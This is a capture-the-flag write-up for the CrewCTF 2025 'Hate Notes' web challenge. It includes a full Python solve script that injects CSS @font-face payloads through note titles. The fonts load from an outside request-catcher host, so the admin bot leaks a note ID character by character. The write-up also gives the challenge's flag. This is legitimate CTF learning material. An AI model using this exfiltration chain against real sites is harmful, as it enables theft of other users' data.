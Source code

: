 # Hate Notes — CrewCTF 2025

> **Room / Challenge:** Hate Notes (Web)

---

## Metadata

- **Author:** `jameskaois`
- **CTF:** CrewCTF 2025
- **Challenge:** Hate Notes (web)
- **Target / URL:** `https://hate-notes.chal.crewc.tf/`
- **Difficulty:** `Medium`
- **Points:** `426`
- **Tags:** web, xss, sqli, auth, enumeration
- **Date:** `21-09-2025`

---

## Goal

We have to get access to the flag `crew{...}` in the admin's note which the `bot` can view.

## My Solution

Love Notes and Hate Notes share 99% of their code, but Love Notes had many more solutions than Hate Notes: [My Solution for Love Notes](./love-notes.md)

You can download the source code of Hate Notes for further investigation: [Source Code](./hate-notes.tar.gz)

Hate Notes blocks all XSS Scripting or any kind of Javascript works in all pages of their website included the `/api/notes/<NOTE_ID>` which we can take advantage of in the Love Notes.

There is other solution for this we will do CSS Exfiltration, in this challenge font exfiltration is widely used to solve. You can take a look at this `solve.py` from the author `bubu` of the challenge. [Link](https://github.com/AlbertoFDR/CTF/blob/main/created-challs/CrewCTF-2025/hate-notes/solve.py)

```python
import json
import time
import random
import string
import requests

URL = "http://localhost:8000"

# Example:
#      f54dbf57-3317-4d6c-b903-bc56868fd728
EXFILTRATION = "https://player.requestcatcher.com/"
UID = ""

def register(user, password):
    r = requests.post(URL+'/api/auth/register', data={'email': user, 'password': password})


def login(user, password):
    r = requests.post(URL+'/api/auth/login', data={'email': user, 'password': password}, allow_redirects=False)
    return r.cookies["token"]


def first_payload(cookie):
    global UID
    payload = ""
    for letter in string.hexdigits[:16]:
        character = UID + letter
        payload += """
        @font-face {
          font-family: exfilFont"""+character+""";
          src: url(""" + EXFILTRATION +  """?id="""+character+""");
        }
        a[href^='/api/notes/""" + character + """'] {
          font-family: exfilFont"""+character+""";
        }
        """
    return json.loads(requests.post(URL+'/api/notes', cookies=cookie, data={'title':payload, 'content':' '}).text)["id"]

def second_payload(id, cookie):
    payload = f"""<link rel=stylesheet href="/static/api/notes/{id}"/>"""
    return json.loads(requests.post(URL+'/api/notes', cookies=cookie, data={'title':payload, 'content': ' '}).text)["id"]

def report(id, cookie):
    print(f"Reporting... {id}")
    r = requests.post(URL+'/report', cookies=cookie, data={'noteId': id})
    print(r.text)


USER = ''.join(random.choice(string.digits+string.ascii_letters) for _ in range(10))
PASSWORD = ''.join(random.choice(string.digits+string.ascii_letters) for _ in range(10))
print(f"USER {USER} -- PASSWORD {PASSWORD}")
register(USER, PASSWORD)
cookie = login(USER, PASSWORD)
while True:
    print(f"[X] UID: {UID}")
    id = first_payload({'token': cookie})
    id = second_payload(id, {'token': cookie})
    report(id, {'token': cookie})
    time.sleep(0.5)
    new_char = input("> ")
    UID += new_char
    if len(UID) in [8,13,18,23]:
        UID += '-'
```

In this method, we also use two note trick:

First note:

```
Title: @font-face (font exfiltration)
```

Second note:

```
Title: <link rel=stylesheet href="/static/api/notes/<FONT_EXFILTRATION_NOTE_ID>"/>
```

By this way, we can get the note id that contains the flag char by char. Then we can just simply type `/dashboard?reviewNote=<DISCOVERED_NOTE_ID>`.

You can get the flag `crew{now_you_solved_it_in_the_right_way_fBi4WVX1kGzPtavs}`.

## Lessons Learned

- CSS Exfiltration
